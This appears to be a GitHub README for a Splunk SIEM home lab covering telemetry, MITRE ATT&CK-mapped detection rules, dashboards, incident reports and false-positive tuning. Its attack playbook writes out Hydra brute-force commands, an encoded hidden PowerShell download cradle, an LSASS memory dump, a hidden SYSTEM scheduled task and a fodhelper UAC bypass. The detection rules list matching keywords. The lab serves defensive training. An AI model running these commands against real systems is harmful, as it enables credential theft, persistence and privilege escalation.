

# 🛡️ Enterprise SIEM Home Lab — Attack Detection & Alert Monitoring

<p align="center">
  
  
  
  
  
  
  
</p>

<p align="center">
  <strong>An end-to-end, enterprise-grade Security Operations Center (SOC) home lab featuring full telemetry collection, adversary emulation, production-grade Splunk SPL detections, SOC alert triaging, and documented 77% false-positive noise reduction.</strong>
</p>

---

## 📑 Table of Contents

- [Executive Summary](#-executive-summary)
- [Architecture & Telemetry Pipeline](#-architecture--telemetry-pipeline)
- [Lab Infrastructure & Network Topology](#-lab-infrastructure--network-topology)
- [Log Ingestion & Data Pipeline](#-log-ingestion--data-pipeline)
- [MITRE ATT&CK Detection Engineering Matrix](#-mitre-attck-detection-engineering-matrix)
- [Adversary Emulation & Attack Playbook](#-adversary-emulation--attack-playbook)
- [Production Splunk SPL Detection Rules](#-production-splunk-spl-detection-rules)
- [SOC Operations Dashboards](#-soc-operations-dashboards)
- [SOC Triage Workflow & Incident Reports](#-soc-triage-workflow--incident-reports)
- [Detection Tuning & False Positive Reduction](#-detection-tuning--false-positive-reduction)
- [Quick Start & Deployment Guide](#-quick-start--deployment-guide)
- [Repository Structure](#-repository-structure)
- [Skills Demonstrated](#-skills-demonstrated)
- [License & Disclaimer](#-license--disclaimer)

---

## 🎯 Executive Summary

Modern cybersecurity operations require more than passive log retention—they demand **active detection engineering, high-fidelity alerting, and rigorous alert triage**. 

This repository documents the complete lifecycle of a high-performance **SOC Monitoring & Threat Detection Lab**:
1. **Telemetry Pipeline**: Configured granular host-level telemetry across Windows Server and Ubuntu Server using **Microsoft Sysmon**, **Windows Event Logs**, and **Linux auditd/auth.log**, streaming over encrypted TCP into **Splunk Enterprise**.
2. **Adversary Simulation**: Executed controlled, multi-stage cyber attacks using **Kali Linux** (Hydra SSH/RDP brute-force, Metasploit, Nmap reconnaissance) and **Atomic Red Team** (PowerShell execution, LSASS memory dumping, scheduled task persistence, UAC bypass).
3. **Detection Engineering**: Developed 7 production-ready detection alerts with risk-scoring algorithms mapped strictly to **MITRE ATT&CK** Enterprise tactics and techniques.
4. **Interactive Visualizations**: Built 5 custom Splunk XML dashboards providing real-time operational visibility into authentication anomalies, process ancestry trees, network traffic, and ATT&CK matrix coverage.
5. **Detection Tuning & Noise Reduction**: Documented iterative tuning cycles, slashing rule false-positive rates from **~35% down to ~8%** (a **77% reduction in alert noise**) through baseline analysis, process ancestry filtering, and service account exclusions.
6. **Incident Response**: Authored 4 comprehensive SOC Incident Reports (IR-001 through IR-004) detailing triage methodologies, root cause analyses, evidence extraction, and containment strategies.

---

## 📐 Architecture & Telemetry Pipeline

The lab implements a multi-tier defense architecture separating adversary infrastructure, monitored workload endpoints, and the centralized SIEM ingestion tier.



---

## 🖥️ Lab Infrastructure & Network Topology

The lab is fully virtualized and can be spun up automatically using **Vagrant** and **Ansible**, or configured manually via step-by-step guides.

| Node Name | Operating System | IP Address | vCPU / RAM | Role & Primary Software | Telemetry Source |
|---|---|---|---|---|---|
| **`splunk-siem`** | Ubuntu 22.04 LTS | `10.0.0.100` | 4 vCPU / 8 GB | Centralized SIEM Indexer & Search Head | Splunk Enterprise 9.x (Web: 8000, Ingestion: 9997) |
| **`win-target`** | Windows Server 2022 | `10.0.0.20` | 2 vCPU / 4 GB | Monitored Windows Workload | Sysmon v15, WinEventLog (Security, System), Splunk UF |
| **`linux-target`** | Ubuntu 22.04 LTS | `10.0.0.30` | 2 vCPU / 2 GB | Monitored Linux Workload | `/var/log/auth.log`, `auditd`, `/var/log/syslog`, Splunk UF |
| **`kali-attacker`** | Kali Linux 2024.x | `10.0.0.10` | 2 vCPU / 4 GB | Adversary Emulation Machine | Hydra, Nmap, Metasploit Framework, Exploit Scripts |

### Network Configuration Matrix

| Port | Protocol | Source &rarr; Destination | Purpose |
|---|---|---|---|
| **`9997`** | TCP | `10.0.0.20`, `10.0.0.30` &rarr; `10.0.0.100` | Splunk Universal Forwarder to Indexer Data Stream |
| **`8000`** | TCP | Analyst Workstation &rarr; `10.0.0.100` | Splunk Web GUI (Dashboards & Search) |
| **`3389`** | TCP | `10.0.0.10` &rarr; `10.0.0.20` | RDP Brute-Force Target Port (T1110.001) |
| **`22`** | TCP | `10.0.0.10` &rarr; `10.0.0.30` | SSH Brute-Force Target Port (T1110.001) |
| **`8089`** | TCP | Splunk Deployment Server | Splunk REST API & Management Port |

---

## 📡 Log Ingestion & Data Pipeline

### 1. Microsoft Sysmon Configuration (`sysmon/sysmon-config.xml`)
A tailored Sysmon XML configuration tuned to capture critical attacker behaviors while suppressing high-volume benign OS noise:

```
├── Event ID 1  : Process Creation (CommandLine, ParentProcess, Hashes, Integrity Level)
├── Event ID 3  : Network Connection (Source/Dest IP & Port, Initiating Process)
├── Event ID 7  : Image Loaded (Unsigned DLLs, DLL Side-Loading)
├── Event ID 8  : CreateRemoteThread (Process Injection into remote memory)
├── Event ID 10 : ProcessAccess (LSASS Memory Queries, Mimikatz, MiniDump)
├── Event ID 11 : FileCreate (Droppers, Ransomware Extensions, Temp Scripts)
└── Event ID 13 : RegistryEvent (Run Keys, UAC Bypass Hijacks, Services)
```

### 2. Splunk Inputs & Parsing (`splunk/`)
- [`splunk/indexes.conf`](splunk/indexes.conf): 4 optimized indexes (`sysmon`, `wineventlog`, `linux`, `attack_logs`) with dedicated storage quotas and retention policies.
- [`splunk/inputs.conf`](splunk/inputs.conf): Forwarder configuration binding Windows Event Logs and Linux log paths.
- [`splunk/props.conf`](splunk/props.conf) & [`splunk/transforms.conf`](splunk/transforms.conf): 15 custom regex transforms extracting fields like `src_ip`, `target_user`, `GrantedAccess`, and `CommandLine`.

---

## 🎯 MITRE ATT&CK Detection Engineering Matrix

Each detection rule in this project is directly correlated to the **MITRE ATT&CK Enterprise Framework**, complete with attack simulations, log sources, and risk ratings.

| MITRE ID | Technique Name | Tactic | Emulation Tool | Log Source | Event ID | Severity | Risk Score |
|---|---|---|---|---|---|---|---|
| **[T1110.001](https://attack.mitre.org/techniques/T1110/001/)** | Brute Force: Password Guessing (RDP) | Credential Access | Kali / Hydra | WinEventLog:Security | `4625` (Logon_Type 10) | **High** | 75 |
| **[T1110.001](https://attack.mitre.org/techniques/T1110/001/)** | Brute Force: Password Guessing (SSH) | Credential Access | Kali / Hydra | Linux `/var/log/auth.log` | `Failed password` | **High** | 75 |
| **[T1110](https://attack.mitre.org/techniques/T1110/)** | Account Compromise After Brute Force | Credential Access | Kali / Scripted | WinEventLog:Security | `4625` &rarr; `4624` | **Critical** | 95 |
| **[T1059.001](https://attack.mitre.org/techniques/T1059/001/)** | Command & Scripting: PowerShell | Execution | Atomic Red Team | Sysmon | `Event ID 1` | **High** | 80-100 |
| **[T1003.001](https://attack.mitre.org/techniques/T1003/001/)** | OS Credential Dumping: LSASS Memory | Credential Access | Atomic Red Team | Sysmon | `Event ID 10` | **Critical** | 80-100 |
| **[T1053.005](https://attack.mitre.org/techniques/T1053/005/)** | Scheduled Task / Job: Scheduled Task | Persistence | Atomic Red Team | Sysmon | `Event ID 1` | **Medium** | 60-90 |
| **[T1548.002](https://attack.mitre.org/techniques/T1548/002/)** | Abuse Elevation Control: UAC Bypass | Privilege Escalation | Atomic Red Team | Sysmon | `Event ID 13` | **Critical** | 95 |

---

## ⚔️ Adversary Emulation & Attack Playbook

All attacks are designed to be reproducible, safe for lab environments, and verified directly inside Splunk.

### 1. Kali Linux External Attacks
```bash
# Reconnaissance: Intense Nmap Port & Service Scan
./attack-simulations/kali-attacks/nmap_recon.sh 10.0.0.20

# RDP Credential Spraying / Brute Force (T1110.001)
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://10.0.0.20 -t 4 -V

# SSH Multi-Threaded Dictionary Attack (T1110.001)
hydra -L users.txt -P passwords.txt ssh://10.0.0.30 -t 4 -vV
```

### 2. Atomic Red Team Host Attacks
```powershell
# T1059.001: Obfuscated Base64 Encoded PowerShell Download Cradle
powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtAC8AcABheQBsAG8AYQBkAC4AcABzADEAJwApAA==

# T1003.001: LSASS Process Access (Credential Extraction)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id $env:TEMP\lsass.dmp full

# T1053.005: Elevated Scheduled Task for Persistence
schtasks.exe /create /tn "SystemHealthMonitor" /tr "powershell.exe -WindowStyle Hidden -Enc <payload>" /sc onlogon /ru "NT AUTHORITY\SYSTEM"

# T1548.002: UAC Bypass via Registry Hijack (fodhelper)
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value ""
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(Default)" -Value "cmd.exe /c start cmd.exe"
Start-Process "C:\Windows\System32\fodhelper.exe"
```

---

## 🔍 Production Splunk SPL Detection Rules

The project features 7 custom detection rules configured in [`splunk/savedsearches.conf`](splunk/savedsearches.conf). Below are highlights of the detection logic:

<details>
<summary><strong>👉 Rule 1: Suspicious PowerShell Execution (T1059.001)</strong></summary>

```spl
index=sysmon EventCode=1 Image="*\\powershell.exe" 
  (CommandLine="*-EncodedCommand*" OR CommandLine="*-enc *" OR CommandLine="*-e *" 
   OR CommandLine="*DownloadString*" OR CommandLine="*DownloadFile*" 
   OR CommandLine="*IEX*" OR CommandLine="*Invoke-Expression*" 
   OR CommandLine="*Net.WebClient*" OR CommandLine="*Start-BitsTransfer*" 
   OR CommandLine="*Invoke-WebRequest*" OR CommandLine="*-WindowStyle Hidden*" 
   OR CommandLine="*-w hidden*" OR CommandLine="*FromBase64String*" 
   OR CommandLine="*-nop*" OR CommandLine="*-noni*" 
   OR CommandLine="*Invoke-Mimikatz*" OR CommandLine="*Invoke-Shellcode*") 
| eval risk_score=case( 
    like(CommandLine, "%EncodedCommand%") OR like(CommandLine, "%-enc %"), 80, 
    like(CommandLine, "%DownloadString%") OR like(CommandLine, "%Net.WebClient%"), 90, 
    like(CommandLine, "%Invoke-Mimikatz%") OR like(CommandLine, "%Invoke-Shellcode%"), 100, 
    1=1, 60) 
| eval mitre_technique="T1059.001", mitre_tactic="Execution" 
NOT (ParentImage="*\\svchost.exe" User="NT AUTHORITY\\SYSTEM" CommandLine="*WindowsUpdate*") 
NOT (ParentImage="*\\ccmexec.exe") 
| table _time, Computer, User, ParentImage, Image, CommandLine, risk_score, mitre_technique, mitre_tactic 
| sort -risk_score
```
* **Schedule**: Every 5 minutes (`*/5 * * * *`)
* **Tuning**: Excludes automated Windows Update and SCCM client maintenance tasks.
</details>

<details>
<summary><strong>👉 Rule 2: LSASS Memory Access & Credential Dumping (T1003.001)</strong></summary>

```spl
index=sysmon EventCode=10 TargetImage="*\\lsass.exe" 
| eval granted_access_hex=GrantedAccess 
| where NOT match(SourceImage, "(?i)(csrss|wininit|wmiprvse|svchost|MsMpEng|NisSrv|SecurityHealthService|taskhostw)\.exe$") 
| eval risk_score=case( 
    GrantedAccess="0x1FFFFF", 100, 
    GrantedAccess="0x1010", 80, 
    GrantedAccess="0x143A", 90, 
    1=1, 70) 
| eval mitre_technique="T1003.001", mitre_tactic="Credential Access" 
| table _time, Computer, SourceImage, SourceUser, TargetImage, GrantedAccess, risk_score, mitre_technique, mitre_tactic 
| sort -risk_score
```
* **Alert Trigger**: Any non-whitelisted binary requesting handle access rights (`0x1FFFFF`, `0x1010`) to the Local Security Authority Subsystem Service.
</details>

<details>
<summary><strong>👉 Rule 3: Account Compromise Following Brute Force (T1110)</strong></summary>

```spl
index=wineventlog (EventCode=4625 OR EventCode=4624) 
| eval auth_result=case(EventCode=4625, "failure", EventCode=4624, "success") 
| bin _time span=10m 
| stats count(eval(auth_result="failure")) as failures, count(eval(auth_result="success")) as successes, latest(_time) as last_event by src_ip, Account_Name, ComputerName 
| where failures > 5 AND successes > 0 
| eval severity="Critical", mitre_technique="T1110", mitre_tactic="Credential Access" 
| eval alert_message="Successful login detected after ".failures." failed attempts from ".src_ip 
| table last_event, ComputerName, src_ip, Account_Name, failures, successes, severity, alert_message, mitre_technique
```
* **Correlation**: Links high-volume failed authentication attempts with a subsequent successful logon within a 10-minute sliding window, identifying active account compromise.
</details>

<details>
<summary><strong>👉 Rule 4: UAC Bypass via Registry Hijacking (T1548.002)</strong></summary>

```spl
index=sysmon EventCode=13 
  (TargetObject="*\\ms-settings\\Shell\\Open\\command*" 
   OR TargetObject="*\\mscfile\\Shell\\Open\\command*" 
   OR TargetObject="*\\Classes\\exefile\\Shell\\Open\\command*") 
| eval mitre_technique="T1548.002", mitre_tactic="Privilege Escalation", risk_score=95 
| table _time, Computer, User, Image, TargetObject, Details, risk_score, mitre_technique, mitre_tactic 
| sort -_time
```
* **Mechanism**: Detects unauthorized writes to user-controlled registry paths inspected by auto-elevating Windows binaries like `fodhelper.exe` or `eventvwr.exe`.
</details>

---

## 📊 SOC Operations Dashboards

The repository includes 5 production-ready XML dashboards located in [`splunk/dashboards/`](splunk/dashboards/):

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                                 SOC OPERATIONS OVERVIEW                                │
├───────────────────┬───────────────────┬───────────────────┬────────────────────────────┤
│ Total Events (24h)│ Active Incidents  │ High/Crit Alerts  │ Top Attacker Source        │
│    1,248,391      │        4          │        18         │ 10.0.0.10 (Kali Attacker)  │
├───────────────────┴───────────────────┴───────────────────┴────────────────────────────┤
│ [Panel 1] Alert Volume by Severity (Timechart: Critical, High, Medium, Low)            │
│ [Panel 2] MITRE ATT&CK Tactic Distribution (Pie Chart: Cred Access, Exec, PrivEsc)    │
│ [Panel 3] Top 10 Targeted Accounts (Bar Chart: Administrator, root, svc_backup)        │
│ [Panel 4] Real-Time Alert Triage Queue (Interactive Event Table with Drilldown)        │
└────────────────────────────────────────────────────────────────────────────────────────┘
```

1. **[SOC Overview](splunk/dashboards/soc_overview.xml)**: High-level command center with metric scorecards, alert severity breakdowns, and real-time incident queues.
2. **[Failed Authentication Monitor](splunk/dashboards/failed_logins.xml)**: Deep-dive view of Windows Event 4625 and Linux `auth.log` failures, tracking failed logon types (Logon Type 10 = RDP, Type 3 = Network).
3. **[Process Creation & Execution Tree](splunk/dashboards/process_creation.xml)**: Visualizes Sysmon Event ID 1 process parent-child relationships, command-line entropy, and living-off-the-land binaries (LOLBins).
4. **[Network Activity & Lateral Movement](splunk/dashboards/network_activity.xml)**: Network traffic monitor based on Sysmon Event ID 3, mapping high-frequency connections, rare destination ports, and internal lateral movement.
5. **[MITRE ATT&CK Matrix Heatmap](splunk/dashboards/mitre_attack_matrix.xml)**: Visual coverage grid displaying detected techniques across the enterprise attack lifecycle.

---

## 📋 SOC Triage Workflow & Incident Reports

When a detection fires, analysts follow a formalized 5-phase triage process documented in [`docs/TRIAGE_WORKFLOW.md`](docs/TRIAGE_WORKFLOW.md):

```
[Phase 1: Ingestion & Verification] ➔ [Phase 2: Context & Host Enrichment] ➔ [Phase 3: IOC Extraction] ➔ [Phase 4: Severity & Containment] ➔ [Phase 5: Remediation & Tuning]
```

### Documented Incident Reports

| Incident ID | Incident Name | MITRE Technique | Targeted Host | Attacker IP | Verdict | Documentation |
|---|---|---|---|---|---|---|
| **`IR-001`** | External RDP Brute Force & Account Spraying | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) | `10.0.0.20` (win-target) | `10.0.0.10` | **True Positive** | [Read Report &rarr;](incident-reports/IR-001_RDP_Brute_Force.md) |
| **`IR-002`** | Obfuscated PowerShell Download Cradle | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | `10.0.0.20` (win-target) | `10.0.0.10` | **True Positive** | [Read Report &rarr;](incident-reports/IR-002_Suspicious_PowerShell.md) |
| **`IR-003`** | UAC Bypass via Fodhelper Registry Hijack | [T1548.002](https://attack.mitre.org/techniques/T1548/002/) | `10.0.0.20` (win-target) | Local / Admin | **True Positive** | [Read Report &rarr;](incident-reports/IR-003_Privilege_Escalation.md) |
| **`IR-004`** | Multi-Threaded SSH Dictionary Attack | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) | `10.0.0.30` (linux-target) | `10.0.0.10` | **True Positive** | [Read Report &rarr;](incident-reports/IR-004_SSH_Brute_Force.md) |

---

## 🔧 Detection Tuning & False Positive Reduction

Alert fatigue is the single greatest threat to SOC operational efficiency. A core pillar of this lab was measuring and eliminating false positive noise without compromising detection efficacy.

### 📈 Tuning Metrics Summary

```
Overall Lab False Positive Rate:
Pre-Tuning:  [█████████████████                      ] 35%
Post-Tuning: [████                                  ]  8%  (▼ 77% Noise Reduction)
```

| Detection Rule | Pre-Tuning FP Rate | Post-Tuning FP Rate | Noise Reduction | Primary Root Cause & Tuning Solution |
|---|---|---|---|---|
| **T1110 Brute Force** | 25% | 5% | **80% reduction** | Whitelisted internal backup service accounts (`svc_backup`, `svc_monitor`) and raised threshold from 5 to 10 failures. |
| **T1059.001 PowerShell** | 40% | 8% | **80% reduction** | Excluded automated Windows Update tasks spawned by `svchost.exe` running as `NT AUTHORITY\SYSTEM` and SCCM `ccmexec.exe`. |
| **T1053.005 Scheduled Tasks** | 50% | 10% | **80% reduction** | Filtered benign administrative MMC console task creation and system services (`services.exe`, `taskeng.exe`). |
| **T1003.001 LSASS Access** | 30% | 5% | **83% reduction** | Whitelisted legitimate security binaries (`MsMpEng.exe`, `SecurityHealthService.exe`) and tuned GrantedAccess mask filters. |
| **T1548.002 UAC Bypass** | 20% | 5% | **75% reduction** | Scoped regex strictly to shell open command subkeys, eliminating benign registry reads by Windows display applets. |

> Complete case studies and regex tuning changes are documented in [`tuning/false_positive_log.md`](tuning/false_positive_log.md) and [`tuning/tuning_changelog.md`](tuning/tuning_changelog.md).

---

## 🚀 Quick Start & Deployment Guide

### System Requirements
* **Hypervisor**: VirtualBox 7.x or VMware Workstation Pro 17+
* **Host Hardware**: 16 GB RAM minimum (32 GB recommended), 4+ CPU cores, 100 GB SSD storage
* **Vagrant**: v2.4+ (optional, for automated build)
* **Ansible**: v2.14+ (optional, for configuration orchestration)

### Option A: Automated Provisioning (Vagrant + Ansible)

```bash
# 1. Clone the project repository
git clone https://github.com/mrrobot11647-sketch/SIEM-Home-Lab-Attack_Detection_and_Alert_Monitoring.git
cd SIEM-Home-Lab-Attack_Detection_and_Alert_Monitoring

# 2. Spin up the 4 virtual machines via Vagrant
cd infrastructure
vagrant up

# 3. Apply Ansible playbooks to configure Splunk, Sysmon, and logging
ansible-playbook -i ansible/inventory.ini ansible/playbook.yml
```

### Option B: Manual Installation
For step-by-step instructions on setting up Splunk, Windows Server, Sysmon, and Ubuntu from scratch, consult the comprehensive guide:
&rarr; **[Detailed Lab Setup Guide (`docs/LAB_SETUP_GUIDE.md`)](docs/LAB_SETUP_GUIDE.md)**

### Option C: Verifying Telemetry in Splunk
Once the forwarders are running, verify log ingestion inside the Splunk Web Search interface (`http://10.0.0.100:8000`):

```spl
| tstats count where index=* by index, sourcetype
```
*Expected Result*: Active event counts for `sysmon`, `wineventlog:security`, `wineventlog:system`, and `linux:auth`.

---

## 📂 Repository Structure

```
SIEM-Home-Lab-Attack_Detection_and_Alert_Monitoring/
├── README.md                           # Master project documentation
├── LICENSE                             # MIT License
├── docs/
│   ├── LAB_SETUP_GUIDE.md             # Complete step-by-step environment build guide
│   ├── ATTACK_PLAYBOOK.md             # Red Team attack procedures & SPL verification
│   └── TRIAGE_WORKFLOW.md             # SOC Level-1/Level-2 alert triage methodology
├── infrastructure/
│   ├── Vagrantfile                    # 4-VM provisioning automation
│   ├── ansible/
│   │   ├── playbook.yml               # Master configuration orchestration playbook
│   │   ├── inventory.ini              # Host IP definitions and SSH/WinRM credentials
│   │   └── roles/                     # Modular deployment roles (Splunk, Sysmon, auditd)
│   └── scripts/
│       ├── install_splunk_server.sh   # Standalone Splunk installation script
│       ├── install_splunk_uf.ps1      # Windows Universal Forwarder installer
│       ├── install_sysmon.ps1         # Sysmon installer with automated config download
│       └── configure_linux_logging.sh # auditd and rsyslog automated configuration
├── sysmon/
│   └── sysmon-config.xml              # Tailored Sysmon v15 configuration
├── splunk/
│   ├── indexes.conf                   # Index definitions (sysmon, wineventlog, linux, attack_logs)
│   ├── inputs.conf                    # Forwarder data inputs
│   ├── props.conf                     # Field extraction regex definitions
│   ├── transforms.conf                # Search-time transforms & lookups
│   ├── savedsearches.conf             # 7 production-grade scheduled detection alerts
│   └── dashboards/
│       ├── soc_overview.xml           # Executive SOC operations overview
│       ├── failed_logins.xml          # Authentication anomaly monitoring
│       ├── process_creation.xml       # Process ancestry tree visualization
│       ├── network_activity.xml       # Network traffic & lateral movement monitor
│       └── mitre_attack_matrix.xml    # Interactive MITRE ATT&CK coverage heatmap
├── detection-rules/                   # Sigma / YAML rule definitions
│   ├── T1110_brute_force.yml          # Brute force detection specification
│   ├── T1059.001_powershell.yml       # Suspicious PowerShell detection specification
│   ├── T1053_scheduled_task.yml       # Scheduled task persistence specification
│   ├── T1003_credential_dump.yml      # LSASS credential access specification
│   ├── T1548_privilege_escalation.yml # UAC bypass specification
│   └── README.md                      # Rule development guidelines
├── attack-simulations/
│   ├── atomic-red-team/               # 5 PowerShell adversary simulation scripts
│   ├── kali-attacks/                  # 4 Bash / Metasploit attack scripts
│   └── README.md                      # Attack execution instructions
├── incident-reports/
│   ├── TEMPLATE.md                    # Standardized SOC incident report template
│   ├── IR-001_RDP_Brute_Force.md      # Full incident investigation: RDP brute force
│   ├── IR-002_Suspicious_PowerShell.md# Full incident investigation: Encoded PowerShell
│   ├── IR-003_Privilege_Escalation.md # Full incident investigation: UAC bypass
│   └── IR-004_SSH_Brute_Force.md      # Full incident investigation: SSH dictionary attack
└── tuning/
    ├── false_positive_log.md          # 5 detailed FP case studies & tuning actions
    └── tuning_changelog.md            # Rule revision history and threshold tuning
```

---

## 💼 Skills Demonstrated

* **SIEM Administration & Architecture**: Splunk Enterprise deployment, index management, data ingestion, forwarder orchestration, and performance tuning.
* **Detection Engineering**: Crafting advanced Search Processing Language (SPL) queries, statistical thresholding, correlation searches, risk scoring, and CIM alignment.
* **Endpoint Telemetry & Forensics**: Microsoft Sysmon configuration, Windows Security Event analysis (4624, 4625, 4688), Linux `auditd`, and `/var/log/auth.log` parsing.
* **Threat Hunting & MITRE ATT&CK**: Mapping adversary tactics, techniques, and procedures (TTPs) across Credential Access, Execution, Persistence, and Privilege Escalation.
* **Adversary Simulation**: Hands-on offensive tool experience with Atomic Red Team, Kali Linux, Hydra, Nmap, and Metasploit.
* **SOC Operations & Incident Response**: Alert triage, True/False positive classification, indicator of compromise (IOC) extraction, root-cause analysis, and incident documentation.
* **Signal-to-Noise Optimization**: Iterative detection rule tuning, baseline profiling, and alert noise reduction.

---

## 📜 License

This project is open-source and distributed under the [MIT License](LICENSE).

---

## ⚠️ Disclaimer

This repository is created solely for **educational, defensive research, and authorized testing purposes**. All attack simulations are designed for isolated home lab environments. Unauthorized scanning or penetration testing against systems without explicit written permission is strictly prohibited and illegal.

---

<p align="center">
  <strong>Built with 🔒 by <a href="https://github.com/mrrobot11647-sketch">mrrobot11647-sketch</a></strong>
</p>
